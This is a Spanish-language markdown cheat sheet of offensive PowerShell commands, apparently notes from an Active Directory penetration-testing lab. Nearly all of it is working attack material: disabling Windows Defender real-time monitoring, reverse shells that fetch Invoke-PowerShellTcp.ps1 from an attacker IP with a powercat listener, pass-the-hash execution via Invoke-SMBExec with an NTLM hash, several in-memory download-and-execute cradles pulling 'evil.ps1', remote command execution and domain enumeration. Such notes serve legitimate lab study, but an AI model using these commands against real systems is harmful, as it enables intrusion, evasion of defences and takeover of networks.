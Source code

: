 # Comandos Básicos de PS
-----------------------
..* `Set-MpPreference -DisableRealtimeMonitoring $true -Verbose VERBOSE: Performing operation 'Update MSFT_MpPreference' on Target 'ProtectionManagement'.`
..* `Get-Help Get-Item -Examples` --> ejemplos de Get-Item
..* `Import-Module <path>`  -> importar modulo a la sesioón
..* `Get-Command -Module <module name>` -> ver las funciones del modulo
..* `Invoke-Command -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local -ScriptBlock{whoami;hostname}` --> Ejecuta el comando en la máquina remota en la que tenemos privilegios, en vez de ScriptBlock se puede poner FilePath para ejecutar un script. Se puede importar un módulo en tu máquina y ejecutarlo en la máquina remota con:
..* `Invoke-Command -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local -ScriptBlock{function:Bypass}`
Esta técnica puede evadir  la politica de ejecución restringida del FilePath
..* `klist` listamos los tickets en nuestra sesión
..* `powershell.exe iex (iwr http://172.16.100.46/Invoke-PowerShellTcp.ps1);InvokePowerShellTcp -Reverse -IPAddress 172.16.100.46 -Port 443` --> `powercat -l -p 443 -v -t 1024`

..* `Invoke-SMBExec -Target 172.16.2.1 -Domain dcorp-dc -Username Administrator -Hash a102ad5753f4c441e3af31c97fad86fd -Command "powershell.exe -Exec Bypass -Command ""& iex (iwr http://172.16.100.46/Invoke-PowerShellTcp.ps1 -UseBasicParsing); Invoke-PowerShellTcp -Reverse -IPAddress 172.16.100.46 -Port 443"""`  --> `powercat -l -p 443 -v -t 1024`


# Descargar Ficheros
-------------------

..* iex (New-Object Net.WebClient).DownloadString('https://webserver/payload.ps1')` --> Descargar en memoria un módulo o lo ejecuta en caso de ser ejecutable

..* `$ie=New-Object -ComObject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://192.168.230.1/evil.ps1');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response` --> alternativa

..* `PSv3 onwards - iex (iwr 'http://192.168.230.1/evil.ps1')`

..* `$h=New-Object -ComObject Msxml2.XMLHTTP;$h.open('GET','http://192.168.230.1/evil.ps1',$false);$h.send();iex $h.responseText`

..* `$wr = [System.NET.WebRequest]::Create("http://192.168.230.1/evil.ps1")` & `$r = $wr.GetResponse()` & `IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()`

#Enumeración
------------
..* `$ADClass = [System.DirectoryServices.ActiveDirectory.Domain]`
..* `$ADClass::GetCurrentDomain()`

Se puede usar PowerView y se puede usar el módulo de ActiveDirectory para Powerwshell, más útil PowerView pero si está activado el uso unicamente de binarios firmados será necesario usar el original.

## Current domain
..* `Get-NetDomain`
..* `Get-ADDomain`
